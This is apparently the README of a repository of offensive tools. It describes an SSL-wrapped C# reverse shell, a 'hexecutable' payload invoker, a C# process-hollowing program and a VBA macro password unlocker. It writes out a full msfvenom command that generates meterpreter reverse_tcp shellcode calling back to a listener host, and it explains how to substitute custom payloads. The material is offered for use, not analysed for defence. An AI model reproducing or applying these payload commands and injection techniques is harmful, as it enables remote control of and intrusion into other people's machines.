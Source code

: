 # Rando
//SslReverseLib is a copy of Jamie Bowman's reverse shell implementation (Ref #1).
The only change I made was wrapping it inside of Microsoft's official SSLSTREAM class (Ref #2).
Programmer needs only to provide a base64 encoded PEM certificate (Ref #3) to get it working
1. https://www.mrjamiebowman.com/hacking/c-sharp-reverse-shell/
2. https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream
3. https://nmap.org/ncat/guide/ncat-ssl.html

//HexecutableInvoker executes any hexecutable payload provided. 
It was inspired by a SANS article on malicious JavaScript (Ref #1) as well Reversing Hub's exquisite class on hexecutable malware. Reccomend highly!!! (Ref #2).
The programmer needs only to replace the namespace & class with that of their payload & then provide the necessary arguments. Convert your payload to .hex format using the instructions provided in ReversingHub's Udemy course linked below.
1. https://isc.sans.edu/forums/diary/Malicious+Script+With+Multiple+Payloads/25090/
2. https://www.udemy.com/course/reverse-engineering-deep-dive/

//C# Process Hollowing
Gmgorelik's C# Process Hollowing implementation (Ref #1). The shell code being executed was generated using the following msfvenom command:
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192[.]168[.]56[.]104 LPORT=56104 -b "\x00" -f cs HollowP.cs

It calls out to a meterpreter listener on 192[.]168[.]56[.]104:56104. You may modify the above command to generate your own payload all the same. This program is mostly commodity & highly detectable.
1. https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

//VBA Macro Hacker
Originally derived from the below StackOverflow page (Ref #1) this .csv contains a function to unlock any VBA macro past password protection.
Open the MacroHacker.csv along side your favorite password protected macro & then execute the unlock funtion.
This should make the previously locked macro viewable in Excel's VBA editor.
1. https://stackoverflow.com/questions/1026483/is-there-a-way-to-crack-the-password-on-an-excel-vba-project
